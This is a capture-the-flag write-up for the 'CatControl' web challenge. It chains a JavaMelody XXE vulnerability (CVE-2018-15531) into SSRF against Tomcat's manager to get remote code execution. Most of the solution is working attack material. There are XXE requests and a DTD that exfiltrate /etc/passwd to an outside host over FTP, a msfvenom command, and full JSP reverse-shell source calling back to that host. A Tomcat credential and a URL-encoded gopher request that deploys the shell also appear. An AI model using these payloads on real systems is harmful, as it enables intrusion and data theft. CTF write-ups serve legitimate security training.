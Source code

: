 # CatControl

**Tags:** XXE, SSRF, JAVAMELODY, TOMCAT, RCE, WAR
**Help links:** 
- https://hexo.imagemlt.xyz/post/melodyXXE/
- https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/

## Description

The web app had single page with info "Site is temporarily unavailable."

## Solution

### XXE 

After searches around we found monitroing of Javamelody on page: https://web-catcontrol.ctfz.one/monitoring

Javamelody had version **1.73.1** with known vulnerability CVE-2018-15531 (XXE).

As shown in the post (https://hexo.imagemlt.xyz/post/melodyXXE/) we could exploit XXE with request like:

```
POST / HTTP/1.1
Host: localhost:8080
Content-type: text/xml
SOAPAction: aaaaa
Content-Length: 154

<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:5678/ev.dtd">
%remote;
]>
</root>
```

So, we make out of band XXE with next request and DTD:

Request:
```
POST / HTTP/1.1
Host: web-catcontrol.ctfz.one
Content-Type: text/xml; charset="utf-8"
SOAPAction: sdfsdfdsf
Connection: close
Content-Length: 206

<?xml version="1.0"?>
<!DOCTYPE cdl [
<!ENTITY % r SYSTEM "file:///etc/passwd">
<!ENTITY % asd SYSTEM "http://111.111.111.40:48111/oob.dtd">
%asd;%c;%rrr;]>

```

DTD:
```

<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % c "<!ENTITY &#37; rrr SYSTEM 'ftp://111.111.111.40:2121/%start;%r;%end;'>">
```

Rouge FTP: https://github.com/lc/230-OOB

### RCE

On the monitoring page we saw that there is Tomcat service on the tcp port: 8080.

After some googling we found post: https://bookgin.tw/2018/12/04/from-xxe-to-rce-pwn2win-ctf-2018-writeup/, that describe exactly same situation.

We had only one problem with payload WAR file, that do not get backconnect shell for us. And we generate new `.jsp` reverse shell with the msfvenome tool.

Msfvenom command:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=111.111.111.40 LPORT=1337 -f raw > shell1.jsp
```

Resulting payload:
```
<%@page import="java.lang.*"%>
<%@page import="java.util.*"%>
<%@page import="java.io.*"%>
<%@page import="java.net.*"%>

<%
  class StreamConnector extends Thread
  {
    InputStream qe;
    OutputStream be;

    StreamConnector( InputStream qe, OutputStream be )
    {
      this.qe = qe;
      this.be = be;
    }

    public void run()
    {
      BufferedReader pr  = null;
      BufferedWriter hvt = null;
      try
      {
        pr  = new BufferedReader( new InputStreamReader( this.qe ) );
        hvt = new BufferedWriter( new OutputStreamWriter( this.be ) );
        char buffer[] = new char[8192];
        int length;
        while( ( length = pr.read( buffer, 0, buffer.length ) ) > 0 )
        {
          hvt.write( buffer, 0, length );
          hvt.flush();
        }
      } catch( Exception e ){}
      try
      {
        if( pr != null )
          pr.close();
        if( hvt != null )
          hvt.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
  ShellPath = new String("/bin/sh");
} else {
  ShellPath = new String("cmd.exe");
}

    Socket socket = new Socket( "111.111.111.40", 1337 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>
```

As shown in the article above we use the `gopher-tomcat-deployer` tool (https://github.com/pimps/gopher-tomcat-deployer) to generate a payload for our JSP, but we have to correct METHOD and PATH of the target tomcat page.

Command to generate WAR for tomcat.
`python gopher-tomcat-deployer.py -u tomcat -p t4nTgDE7VQY6r3F8zcKv -t localhost -pt 8080 shell1.jsp`


Resulting gopher request:
```
gopher://localhost:8080/_PUT%20/manager/deploy%3Fpath%3D/jack%20HTTP/1.1%0D%0AHost%3A%20localhost%3A8080%0D%0AContent-Length%3A%20183%0D%0AAuthorization%3A%20Basic%20dG9tY2F0OnQ0blRnREU3VlFZNnIzRjh6Y0t2%0D%0AConnection%3A%20close%0D%0A%0D%0A%50%4b%03%04%14%00%00%00%00%00%00%00%21%00%2e%79%06%70%1b%06%00%00%1b%06%00%00%0a%00%00%00%73%68%65%6c%6c%31%2e%6a%73%70%3c%25%40%70%61%67%65%20%69%6d%70%6f%72%74%3d%22%6a%61%76%61%2e%6c%61%6e%67%2e%2a%22%25%3e%0a%3c%25%40%70%61%67%65%20%69%6d%70%6f%72%74%3d%22%6a%61%76%61%2e%75%74%69%6c%2e%2a%22%25%3e%0a%3c%25%40%70%61%67%65%20%69%6d%70%6f%72%74%3d%22%6a%61%76%61%2e%69%6f%2e%2a%22%25%3e%0a%3c%25%40%70%61%67%65%20%69%6d%70%6f%72%74%3d%22%6a%61%76%61%2e%6e%65%74%2e%2a%22%25%3e%0a%0a%3c%25%0a%20%20%63%6c%61%73%73%20%53%74%72%65%61%6d%43%6f%6e%6e%65%63%74%6f%72%20%65%78%74%65%6e%64%73%20%54%68%72%65%61%64%0a%20%20%7b%0a%20%20%20%20%49%6e%70%75%74%53%74%72%65%61%6d%20%71%65%3b%0a%20%20%20%20%4f%75%74%70%75%74%53%74%72%65%61%6d%20%62%65%3b%0a%0a%20%20%20%20%53%74%72%65%61%6d%43%6f%6e%6e%65%63%74%6f%72%28%20%49%6e%70%75%74%53%74%72%65%61%6d%20%71%65%2c%20%4f%75%74%70%75%74%53%74%72%65%61%6d%20%62%65%20%29%0a%20%20%20%20%7b%0a%20%20%20%20%20%20%74%68%69%73%2e%71%65%20%3d%20%71%65%3b%0a%20%20%20%20%20%20%74%68%69%73%2e%62%65%20%3d%20%62%65%3b%0a%20%20%20%20%7d%0a%0a%20%20%20%20%70%75%62%6c%69%63%20%76%6f%69%64%20%72%75%6e%28%29%0a%20%20%20%20%7b%0a%20%20%20%20%20%20%42%75%66%66%65%72%65%64%52%65%61%64%65%72%20%70%72%20%20%3d%20%6e%75%6c%6c%3b%0a%20%20%20%20%20%20%42%75%66%66%65%72%65%64%57%72%69%74%65%72%20%68%76%74%20%3d%20%6e%75%6c%6c%3b%0a%20%20%20%20%20%20%74%72%79%0a%20%20%20%20%20%20%7b%0a%20%20%20%20%20%20%20%20%70%72%20%20%3d%20%6e%65%77%20%42%75%66%66%65%72%65%64%52%65%61%64%65%72%28%20%6e%65%77%20%49%6e%70%75%74%53%74%72%65%61%6d%52%65%61%64%65%72%28%20%74%68%69%73%2e%71%65%20%29%20%29%3b%0a%20%20%20%20%20%20%20%20%68%76%74%20%3d%20%6e%65%77%20%42%75%66%66%65%72%65%64%57%72%69%74%65%72%28%20%6e%65%77%20%4f%75%74%70%75%74%53%74%72%65%61%6d%57%72%69%74%65%72%28%20%74%68%69%73%2e%62%65%20%29%20%29%3b%0a%20%20%20%20%20%20%20%20%63%68%61%72%20%62%75%66%66%65%72%5b%5d%20%3d%20%6e%65%77%20%63%68%61%72%5b%38%31%39%32%5d%3b%0a%20%20%20%20%20%20%20%20%69%6e%74%20%6c%65%6e%67%74%68%3b%0a%20%20%20%20%20%20%20%20%77%68%69%6c%65%28%20%28%20%6c%65%6e%67%74%68%20%3d%20%70%72%2e%72%65%61%64%28%20%62%75%66%66%65%72%2c%20%30%2c%20%62%75%66%66%65%72%2e%6c%65%6e%67%74%68%20%29%20%29%20%3e%20%30%20%29%0a%20%20%20%20%20%20%20%20%7b%0a%20%20%20%20%20%20%20%20%20%20%68%76%74%2e%77%72%69%74%65%28%20%62%75%66%66%65%72%2c%20%30%2c%20%6c%65%6e%67%74%68%20%29%3b%0a%20%20%20%20%20%20%20%20%20%20%68%76%74%2e%66%6c%75%73%68%28%29%3b%0a%20%20%20%20%20%20%20%20%7d%0a%20%20%20%20%20%20%7d%20%63%61%74%63%68%28%20%45%78%63%65%70%74%69%6f%6e%20%65%20%29%7b%7d%0a%20%20%20%20%20%20%74%72%79%0a%20%20%20%20%20%20%7b%0a%20%20%20%20%20%20%20%20%69%66%28%20%70%72%20%21%3d%20%6e%75%6c%6c%20%29%0a%20%20%20%20%20%20%20%20%20%20%70%72%2e%63%6c%6f%73%65%28%29%3b%0a%20%20%20%20%20%20%20%20%69%66%28%20%68%76%74%20%21%3d%20%6e%75%6c%6c%20%29%0a%20%20%20%20%20%20%20%20%20%20%68%76%74%2e%63%6c%6f%73%65%28%29%3b%0a%20%20%20%20%20%20%7d%20%63%61%74%63%68%28%20%45%78%63%65%70%74%69%6f%6e%20%65%20%29%7b%7d%0a%20%20%20%20%7d%0a%20%20%7d%0a%0a%20%20%74%72%79%0a%20%20%7b%0a%20%20%20%20%53%74%72%69%6e%67%20%53%68%65%6c%6c%50%61%74%68%3b%0a%69%66%20%28%53%79%73%74%65%6d%2e%67%65%74%50%72%6f%70%65%72%74%79%28%22%6f%73%2e%6e%61%6d%65%22%29%2e%74%6f%4c%6f%77%65%72%43%61%73%65%28%29%2e%69%6e%64%65%78%4f%66%28%22%77%69%6e%64%6f%77%73%22%29%20%3d%3d%20%2d%31%29%20%7b%0a%20%20%53%68%65%6c%6c%50%61%74%68%20%3d%20%6e%65%77%20%53%74%72%69%6e%67%28%22%2f%62%69%6e%2f%73%68%22%29%3b%0a%7d%20%65%6c%73%65%20%7b%0a%20%20%53%68%65%6c%6c%50%61%74%68%20%3d%20%6e%65%77%20%53%74%72%69%6e%67%28%22%63%6d%64%2e%65%78%65%22%29%3b%0a%7d%0a%0a%20%20%20%20%53%6f%63%6b%65%74%20%73%6f%63%6b%65%74%20%3d%20%6e%65%77%20%53%6f%63%6b%65%74%28%20%22%31%38%35%2e%31%38%36%2e%32%34%37%2e%34%30%22%2c%20%31%33%33%37%20%29%3b%0a%20%20%20%20%50%72%6f%63%65%73%73%20%70%72%6f%63%65%73%73%20%3d%20%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%20%53%68%65%6c%6c%50%61%74%68%20%29%3b%0a%20%20%20%20%28%20%6e%65%77%20%53%74%72%65%61%6d%43%6f%6e%6e%65%63%74%6f%72%28%20%70%72%6f%63%65%73%73%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%20%73%6f%63%6b%65%74%2e%67%65%74%4f%75%74%70%75%74%53%74%72%65%61%6d%28%29%20%29%20%29%2e%73%74%61%72%74%28%29%3b%0a%20%20%20%20%28%20%6e%65%77%20%53%74%72%65%61%6d%43%6f%6e%6e%65%63%74%6f%72%28%20%73%6f%63%6b%65%74%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%2c%20%70%72%6f%63%65%73%73%2e%67%65%74%4f%75%74%70%75%74%53%74%72%65%61%6d%28%29%20%29%20%29%2e%73%74%61%72%74%28%29%3b%0a%20%20%7d%20%63%61%74%63%68%28%20%45%78%63%65%70%74%69%6f%6e%20%65%20%29%20%7b%7d%0a%25%3e%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%50%4b%01%02%14%03%14%00%00%00%00%00%00%00%21%00%2e%79%06%70%1b%06%00%00%1b%06%00%00%0a%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%73%68%65%6c%6c%31%2e%6a%73%70%50%4b%05%06%00%00%00%00%01%00%01%00%38%00%00%00%43%06%00%00%00%00%0d%0a
```

After that we could send SSRF  request on page `http://localhost:8080/jack/shell1.jsp` and get backconnect.

To get the flag we needed to run `/flag` script in root of host.
